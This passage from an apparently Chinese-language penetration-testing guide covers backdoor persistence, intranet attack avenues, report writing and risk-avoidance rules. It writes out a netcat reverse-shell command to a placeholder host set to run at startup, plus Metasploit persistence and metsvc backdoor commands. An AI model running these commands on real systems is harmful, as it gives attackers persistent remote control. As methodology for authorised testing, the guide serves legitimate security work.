        nc

        ```
        服务器监听4444端口 nc -lvvp 4444

        目标执行 nc -t -e cmd.exe x.x.x.x 4444 ，并添加开机启动
        ```
        msf
        ```
        先获得一个Meterpretershell
        利用 Persistence模块
        run persistence -U -i 10 -p 4444 -r x.x.x.x
        
            -U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
            -i：设置反向连接间隔时间，单位为秒；
            -p：设置反向连接的端口号；
            -r：设置反向连接的ip地址。

        Metsvc 模块

        run metsvc -A
        直接在目标主机上开启一个服务
        利用handler下的windows/metsvc_bind_tcp模块，重新获得shell
        ```

- 内网渗透
    
    网络拓扑探测

        安全域、防火墙、ids/ips

    内网弱口令
    内网服务器漏洞
    内网网络设备漏洞
    内网个人终端漏洞

        系统层ms17-010等   office漏洞     

    内网钓鱼
    中间人攻击
    内网穿透


## 0x06 报告编写

一个好的渗透测试报告至关重要。
只有编写完渗透测试报告这次渗透测试才算完全结束。<br>
首先你需要明确漏洞名称以及漏洞原理。
其次要注明参与人员，测试时间，内网外网<br>
- 按需整理：按照之前第一步跟客户确定好的范围，需求来整理资料，并将资料形成报告
- 补充介绍：要对漏洞成因，验证过程和带来危害进行分析
- 修补建议：当然要对所有产生的问题提出合理高效安全的解决办法


## 0x07 风险规避

1. 不要进行诸如ddos攻击，不破坏数据
1. 测试之前对重要数据进行备份
1. 任何测试执行前必须和客户进行沟通，以免引来不必要的麻烦
1. 可以对原始系统生成镜像环境，然后对镜像环境进行测试
1. 明确渗透测试范围
